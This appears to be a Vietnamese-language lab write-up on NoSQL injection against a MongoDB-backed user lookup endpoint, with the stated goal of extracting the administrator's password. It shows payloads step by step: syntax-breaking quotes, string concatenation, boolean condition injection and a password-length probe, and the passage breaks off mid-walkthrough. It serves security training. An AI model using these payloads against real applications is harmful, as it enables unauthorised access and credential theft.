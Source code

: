 Ứng dụng có chức năng tra cứu người dùng: 

```
GET /user/lookup?user=wiener
```

Backend dùng MongoDB để tra cứu user, nhưng không lọc hoặc không escape đầu vào.

Mục tiêu: khai thác NoSQL injection để tìm và trích xuất mật khẩu của user `administrator`.



Steps: 

- Kiểm tra injection với endpoint: `GET /user/lookup?user=wiener`

```
GET /user/lookup?user=wiener'
```

=> Kết quả: lỗi cú pháp JavaScript → chứng tỏ đầu vào được chèn trực tiếp vào truy vấn

- Test nối chuỗi: 

  - Gửi payload:

    ```
    wiener'+' 
    ```

  - Ý nghĩa: chuỗi `"wiener"` nối thêm chuỗi rỗng → `"wiener" + ""`.

  - Kết quả: server vẫn trả lại thông tin user `wiener` → chứng tỏ đầu vào bị nối chuỗi vào truy vấn.

- Test  các biểu thức điều kiện
  - ĐIều kiện luôn sai: 

```
wiener' && '1'=='2
```

=> Không hiển thị user	

​	- Điều kiện luôn đúng

```
wiener' && '1'=='1
```

=> Kết luận: có thể chèn biểu thức boolean và điều khiển kết quả tìm kiếm dựa trên điều kiện.

Có vẻ truy vấn backend được viết như sau: 

```
db.users.findOne({ username: user })
```

Nếu chèn giá trị `user` = `administrator' && this.password.length < 10 || 'a'=='b`

Nếu điều kiện độ dài password đúng, user được gán bằng `administrator`
